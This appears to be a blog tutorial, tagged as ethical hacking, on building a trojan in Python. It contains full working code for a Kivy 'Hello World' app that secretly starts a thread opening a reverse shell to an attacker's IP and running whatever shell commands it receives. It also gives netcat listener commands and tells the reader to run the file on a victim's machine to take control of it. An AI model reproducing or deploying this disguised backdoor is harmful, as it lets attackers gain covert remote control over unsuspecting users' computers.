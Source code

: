 ```yaml
---
layout: post
title: How to Make a Simple Trojan with Python
date: 2022-09-23 07:00:00 -500
categories: [Ethical Hacking,python]
tags: [python]
---
```


<img src="https://raw.githubusercontent.com/Mostafatoumi/mostafatoumi.io_img/main/How%20ToMake%20a%20Simple%20Trojan%20with%20Python%20.png" width="738" height="423">

***
<center><strong><font color="DarkGray">For the ones who didn’t know yet, a Trojan Horse Attack consists of embedding en exploit in an innocent-looking Application, or even in a document. As you might have guessed today we will embed a backdoor into a Kivy-made GUI. This attack is quite simple, the only thing you need to know is just some python and networking basics. Let us get started!</font></strong></center>


***
## **<strong><font color="Brown">Enumeration</font></strong>**
***

### **<strong><font color="DarkCyan">Requirements</font></strong>**
To get started, let's install the required libraries:
```bash
pip install kivy
pip install socket
pip install threaded
```
### **<strong><font color="DarkCyan">The Trojan</font></strong>**

How to build?

### **<strong><font color="DarkCyan">The Backdoor</font></strong>**

Among the many things we can embed in a Trojan Horse, I choose to embed a Backdoor.


* Basically, you can embed everything, but today we’ll embed a backdoor.

### **<strong><font color="DarkCyan">The App</font></strong>**

This is a key point, we will use the Kivy framework in order to develop an Innocent-looking app, but as the Trojan attack says, it will contain the malicious backdoor, which we’ll use to gain access to the computer. From then, you’ll own the target’s computer.


* Disclaimer : I am not a graphical apps experienced developer, just use them when I need. So the Trojan we’ll build has not a good graphics, however, you’ll be able to imporove it on your own with the Kivy’s documentation.

As said in the disclaimer, today we won’t focus on the graphic of the App, that can be easily improved just by going to Kivy’s Documentation, rather, we’ll focus on how to embed everything you want(here a Backdoor) in a graphical app.

### **<strong><font color="DarkCyan">The Hacker’s Machine</font></strong>**
we’ll just need to use Netcat and waitting for the response.open a Terminal Window and:
```bash
nc -lnv 4444
```
### **<strong><font color="DarkCyan">Start Coding</font></strong>**

Now it Is the moment to code our Trojan. Basically, we’ll organize using a function(a malicious one), and a class(the GUI). Such a simple code.

```python
from kivy.app import App
from kivy.uix.label import Label

import threading
import socket
import subprocess


def main():
    server_ip = 'your_local_ip'
    port = 4444
    
    backdoor = socket.socket()
    backdoor.connect((server_ip, port))

    while True:
        command = backdoor.recv(1024)
        command = command.decode()
        op = subprocess.Popen(command, shell=True, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        output = op.stdout.read()
        output_error = op.stderr.read()
        backdoor.send(output + output_error)


class App(App):
    def build(self):
        return Label(text="Hello World")



mal_thread = threading.Thread(target=main)
mal_thread.start()


app = App()
app.run()
```

* ```Lines 1/2```: Imported some Kivy basic modules.

* Lines 4/6: Imported the Socket and Subprocess module for the backdoor. Then the threading module in order to be able to execute both the malicious code and neutral(the GUI code).

* ```Lines 9/22```: Used the code of the Backdoor Attack in Python article to create a main function that contains the backdoor.

* ```Lines 26/27```: Build a ```“Hello World”``` simple GUI.

* ```Lines 31/32```: Created a thread for the ```main()``` function and then started it ```(mal_thread.start())```.

* ```Lines 35/36```: Ran the simple GUI.

### **<strong><font color="DarkCyan">On the Attacker Machine</font></strong>**

As shown previously, we will be using Netcat to bind a port and listen for incoming connections. In this case, we will use the well known 4444 port. This command will give you no output until the Victim connects.


```bash
nc -lvp 4444
```
### **<strong><font color="DarkCyan">On the Target Machine</font></strong>**

After having started the attack on the Attacker’s Machine, we can complete it on the victim machine.

Just export the code to the target machine and execute it, in order for the backdoor to work make sure you entered the right IP address at line 10.

Once you execute the code on the Victim computer, you’ll see a Kivy app saying “hello world” on the victim’s, and you’ll see this on the Attacker’s side:


<img src="https://raw.githubusercontent.com/Mostafatoumi/mostafatoumi.io_img/main/1.png" width="750" height="150">

* So, we got a shell on the Victim computer using a Reverse Shell. Great!

